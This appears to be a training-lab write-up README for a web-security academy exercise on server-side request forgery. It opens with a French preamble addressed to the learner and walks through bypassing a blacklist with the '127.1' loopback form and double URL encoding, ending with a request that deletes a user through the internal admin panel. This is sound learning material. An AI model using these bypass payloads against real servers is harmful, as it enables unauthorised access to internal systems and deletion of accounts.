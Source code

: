 Parfait Kaouthar, tu viens de résoudre avec succès le **Lab 3 – SSRF with blacklist-based input filter**, et tu as déjà ton payload final utilisé dans Burp Suite 💥
Voici le **README complet et propre** avec un espace réservé pour ton screenshot de preuve (Burp Suite ou résultat dans le navigateur).

---

# README — SSRF with Blacklist-Based Input Filter

---

## 🔍 Overview

This lab demonstrates a **Server-Side Request Forgery (SSRF)** vulnerability where the application uses a **blacklist-based input filter** to block access to internal resources.

You’ll bypass this weak filtering mechanism using:

* Alternate IP representations
* Double URL encoding to obfuscate forbidden keywords (like `admin`)

---

## 🎯 Objective

* Exploit SSRF to access the internal admin panel
* Bypass input filters using encoding techniques
* Use SSRF to **delete the user `carlos`**
* Solve the lab

---

## 🧪 Tools Used

* Burp Suite (Proxy, Repeater)
* Manual crafting of payloads (double encoding)

---

## 🚀 Step-by-Step Exploitation

### 1. Intercept the Stock Checker Request

Click **"Check stock"** on a product, then capture the POST request in Burp:

```http
POST /product/stock HTTP/2
Host: <LAB-ID>.web-security-academy.net
...
stockApi=http://stock.weliketoshop.net/product/1/stock
```

---

### 2. Test Basic Payloads

Try:

```http
stockApi=http://127.0.0.1/
```

🛑 Response: Blocked due to IP blacklist.

Try:

```http
stockApi=http://127.1/
```

✅ Response: Bypasses IP filter (127.1 == 127.0.0.1)

Now try:

```http
stockApi=http://127.1/admin
```

🛑 Response: Blocked due to blacklist on keyword `admin`

---

### 3. Final Payload (Double URL Encoding)

Use the following payload to bypass both filters:

```
stockApi=http://127.1/%25%36%31dmin/delete?username=carlos
```

Decoded twice:

* `%25` = `%`
* `%2561` = `%61` = `a` → becomes `admin`

✅ Response: User `carlos` deleted → Lab solved!

---

## 📸 Screenshot Proof

📁 Place your Burp Suite screenshot or lab validation here:

**Screenshot Placeholder:**
![ssrf](https://github.com/Kabilala/ssrf/blob/main/lab4/lab4.png)
